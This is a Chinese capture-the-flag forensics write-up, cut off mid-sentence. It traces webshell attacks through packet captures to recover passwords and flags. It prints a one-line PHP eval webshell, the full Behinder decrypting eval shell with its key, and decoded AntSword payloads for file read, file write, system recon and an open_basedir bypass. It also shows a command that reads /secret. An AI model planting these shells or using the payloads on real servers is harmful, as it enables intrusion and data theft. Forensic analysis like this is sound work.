## webshell后门

打开D盾，点击自定义扫描，选择附件给的网站文件夹，点击确定。



检查出三个文件
在member\zp.php找到了Webshell中的密码



## webshell流量分析

在第九个流中发现关键信息


```php
aa=@eval.(base64_decode($_POST[action]));&action=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRj1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCRGLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpemUoJEYpKSk7QGZjbG9zZSgkUCk7O2VjaG8oInw8LSIpO2RpZSgpOw%3D%3D&z1=RDpcd2FtcDY0XHd3d1x1cGxvYWRcaGVsbG8uemlw
```

进行url解码，和base64解码

action解码信息：

```php
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$F=base64_decode($_POST["z1"]);$P=@fopen($F,"r");echo(@fread($P,filesize($F)));@fclose($P);;echo("|<-");die();
```

z1解码信息：

```
D:\wamp64\www\upload\hello.zip
```

导出原始数据



使用foremost分离出hello.zip



里面有flag.txt，但需要密码


在第七个流里发现关键信息

```php
aa=@eval.(base64_decode($_POST[action]));&action=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskZj1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JGM9JF9QT1NUWyJ6MiJdOyRjPXN0cl9yZXBsYWNlKCJcciIsIiIsJGMpOyRjPXN0cl9yZXBsYWNlKCJcbiIsIiIsJGMpOyRidWY9IiI7Zm9yKCRpPTA7JGk8c3RybGVuKCRjKTskaSs9MikkYnVmLj11cmxkZWNvZGUoIiUiLnN1YnN0cigkYywkaSwyKSk7ZWNobyhAZndyaXRlKGZvcGVuKCRmLCJ3IiksJGJ1Zik%2FIjEiOiIwIik7O2VjaG8oInw8LSIpO2RpZSgpOw%3D%3D&z1=RDpcd2FtcDY0XHd3d1x1cGxvYWRcNjY2Ni5qcGc%3D&z2=FFD8FFE000104A46494600010101007800780000FFDB00430001010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101FFDB00430101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101FFC0001108013901E203012200021101031101FFC4001F00000105010101010101000000000000000
```

url/base64解码

```php
action=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$f=base64_decode($_POST["z1"]);$c=$_POST["z2"];$c=str_replace("\r","",$c);$c=str_replace("\n","",$c);$buf="";for($i=0;$i<strlen($c);$i+=2)$buf.=urldecode("%".substr($c,$i,2));echo(@fwrite(fopen($f,"w"),$buf)?"1":"0");;echo("|<-");die();
```

```
z1=D:\wamp64\www\upload\6666.jpg
```

z2很明显是6666.jpg的16进制数据流



16进制转图片，获得密码 `Th1s_1s_p4sswd_!!!`

解开加密压缩包得到flag
`flag{3OpWdJ-JP6FzK-koCMAK-VkfWBq-75Un2z}`



## WebShell！

题目信息：溯源攻击者窃取的文件内容！他用了蚁剑诶？ Flag格式为：flag{WebShell密码_黑客获取的用户名_机密文件内容} 例如flag{cmd_root_secret}

查找字符串 `# ini_set` 


追踪HTTP流得到关键信息



提取php代码

```php
<?php 
highlight_file(__FILE__);
eval($_POST['n3wst4r']);
?>
```

WebShell密码为 `n3wst4r`

url解码得到恶意脚本



```php
@ini_set("display_errors", "0");
@set_time_limit(0);

$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        }
        $tmdir = $item . "/.97d698565506";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

function asenc($out)
{
    return $out;
}

function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "3870c" . "52559";   // 实际输出 "3870c52559"
    echo @asenc($output);
    echo "6ae" . "027c";       // 实际输出 "6ae027c"
}

ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}\t";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) {
            if (is_dir("{$L}:")) $R .= "{$L}:";
        }
    } else {
        $R .= "/";
    }
    $R .= "\t";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "\t{$s}";
    echo $R;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}
asoutput();
die();
```

try包裹代码块收集信息，以固定特征字符串 `3870c52559...6ae027c` 包裹输出

可以看到获取的用户名信息为 `www-data`



以 `n3wst4r` 为关键词进行搜索


找到第38个流，分析**命令执行链**：
接收三个 POST 参数（`g883299482ed9b`、`h37e8ca57159a8`、`yba4b314a083ba`），每个参数值去掉前2个字符后 base64 解码，并将输出结果以 `aac1c1...8aa4f5f2d44` 包裹的形式返回

1. 参数 `g883299482ed9b`
- 原始值：`BRL2Jpbi9zaA==`
- 去掉前两个字符，Base64 解码得到：`/bin/sh`
表示要使用的 shell 程序路径。

1. 参数 `h37e8ca57159a8`
- 原始值：`GlY2QgIi92YXIvd3d3L2h0bWwiO2NhdCAvc2VjcmV0O2VjaG8gZDBmNGE2OGE7cHdkO2VjaG8gMjVlNzA=`
- 去掉前两个字符，Base64 解码得到：  
`cd "/var/www/html";cat /secret;echo d0f4a68a;pwd;echo 25e70`

命令执行输出的结果：

```
aac1c1Y0UAr3G00D
d0f4a68a
/var/www/html
25e70
8aa4f5f2d44
```


解析结果

```
# cat /secret
Y0UAr3G00D

# pwd
/var/www/html
```

WebShell密码：n3wst4r
黑客获取的用户名：www-data
机密文件内容：Y0UAr3G00D

flag{n3wst4r_www-data_Y0UAr3G00D}

## 溯源

题目信息：在调查清楚攻击者的攻击路径后你暗暗松了一口气，但是攻击者仍控制着服务器，眼下当务之急是继续深入调查攻击者对服务器进行了什么操作，同时调查清楚攻击者的身份，请你分析攻击者与WebShell通讯的流量获取攻击者获取的相关信息，目前可以得知的是攻击者使用了冰蝎进行WebShell连接。 Tip：沿着前序题目的进度分析会更符合逻辑，或许有助于解题 FLAG格式：flag{攻击者获取到的服务器用户名_服务器内网IP地址} 例如flag{web_10.0.0.3}

使用了冰蝎进行WebShell连接
先查看post

```
http.request.method == "POST"  
```
找到shell.php，追踪流




将负载进行url解码，发现base64编码信息

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

得到 `$key="e45e329feb5d925b";` 和编码方式 `AES128`

解码到第5721个包，